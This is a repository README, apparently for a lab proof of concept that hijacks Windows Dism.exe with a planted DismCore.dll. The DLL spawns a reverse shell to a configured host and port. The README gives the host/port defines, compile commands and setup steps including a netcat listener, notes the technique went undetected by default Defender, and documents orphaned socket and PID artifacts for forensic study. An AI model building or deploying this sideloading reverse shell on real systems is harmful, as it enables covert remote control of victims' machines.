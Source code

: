 # DLL Hijack Reverse Shell Demo - Targeting Dism.exe

## Overview

This project documents a minimal Windows DLL developed and tested in a controlled lab environment to demonstrate DLL hijacking through the legitimate Windows binary `Dism.exe`. The DLL, when placed next to `Dism.exe`, can be loaded by the process and lead to spawning a shell with its I/O redirected to a network connection.

Any tooling from this repository is intended for educational and authorized testing only.

---

## How It Works

1. A custom DLL named `DismCore.dll` is placed in the same directory as `Dism.exe`.
2. When `Dism.exe` is executed, Windows' DLL search order can cause the local `DismCore.dll` to be loaded.
3. The loaded DLL establishes a TCP connection to a preconfigured remote endpoint and spawns `cmd.exe`.
4. The child process may inherit or duplicate the socket handle. If the parent process crashes or exits, the child can remain running while kernel networking tables may still reference the parent PID.
5. This can produce artifacts such as orphaned TCP entries and mismatched parent/child process relationships.

---

## Build & Configuration

> Note: The content below is for lab/educational reproduction in an authorized test environment only.

Edit the source to configure the target host and port:
```c
#define IP   "192.168.1.99"
#define PORT 6666
```

Typical compilation commands:
```bash
# MSVC (Developer Command Prompt)
cl /LD DismCore.dll ws2_32.lib

# MinGW
gcc -shared -o DismCore.dll DismCore.c -lws2_32
```

---

## Setup 

1. Place a test copy of `Dism.exe` in any writable directory you wish.
2. Place `DismCore.dll` in the same directory as the test copy of `Dism.exe`.
3. Start a listener on the attacker host to observe the connection (nc -lvnp 6666 for example).
4. Execute the copy of `Dism.exe` and the reverse shell will connect back to the listener.

---

## Tested Platforms

The proof-of-concept was tested in an isolated lab environment on Windows 10 (Version 22H2, x64)
and on a Windows 11 VM running the most recent public Windows 11 release available at the time of testing with the latest Windows Defender definitions and updates applied.
Both environments produced more or less the exact same results with the DLL being loaded by the targeted binary, a reverse shell was established, and the child cmd.exe retained a socket handle
after the parent process terminated. The demonstration executed without any detection by the default out-of-the-box Defender configuration used in the lab, illustrating how straightforward DLL sideloading can yield
persistent network artifacts. These results are specific to the test configuration and may vary in different environments or with different security products or policies.


---

## Observed Artifacts


### 1. Dism.exe loading our DismCore.dll`
**As you can see upon succesful execution Dism.exe immediately crashes**  

![](images/DLL_HIJACK_1.png)

---

### 2. Socket still established after parent exits
**Even although Dism.exe crashes our listener still gets a connection from the VM:**  

![](images/DLL_HIJACK_2.png)

---

### 3. Verifying that Dism.exe loaded the local directory version of DismCore.dll
**When we check the modules tab in the properties of Dism.exe we see all the dlls leveraged upon execution**  

![](images/DLL_HIJACK_3.png)

---

### 4. Child `cmd.exe` running under a nonexistent parent PID
**Evidently from the screenshot we can notice the reverse shell is now running off an orphaned process through the inherited handle, displayed is the PID of Dism.exe:**  

![](images/DLL_HIJACK_4.png))

---

### 5. Handle tab showing `\Device\Afd\Endpoint`
**After checking the handles of the process we see the \Device\Afd\Endpoint handle represents an active network socket owned by the process, its presence inside cmd.exe alongside an established TCP connection proves the shell’s input and output are being redirected through that socket):**  


![](images/DLL_HIJACK_5.png))
---

### 6. Output of netstat -ano | find "ESTABLISHED"`
**However when we run netstat or tcpview, we see the PID of the active process is 5948 which happens to be the initial PID of the parent (Dism.exe) :**  

!(images/DLL_HIJACK_6.png))
---

### 7. Output of Get-Process -Id 5948 -ErrorAction SilentlyContinue | Format-List Id,ProcessName,StartTime,Path,UserName
**Then again as we can see from the screenshot, there is no corresponding active process with the PID of 5948:**  

![](images/DLL_HIJACK_7.png))

---

### 8. Identifying the PID of the actual cmd.exe instance hosting the reverse shell 
**Using Process Hacker 2, we pinpoint the instance of cmd.exe leveraged by the shell using the `\Device\Afd\Endpoint` handle :**  

![](images/DLL_HIJACK_8.png))

---

### 9. Output of netstat -ano | find "7768"
**Once again netstat gives us no output on a PID we just verified exists. So what is happening? The socket connection created earlier was inherited by cmd.exe, which is why you still see traffic associated with port 5948.
The lingering TCP table entry with PID 5948 is just the leftover kernel reference to the parent process that no longer exists.:**  

![](images/DLL_HIJACK_9.png))

---

## Disclaimer

This repository and its materials are provided for educational, defensive research, and authorized penetration testing purposes only. Do not deploy or use these techniques outside of authorized, isolated lab environments.

---
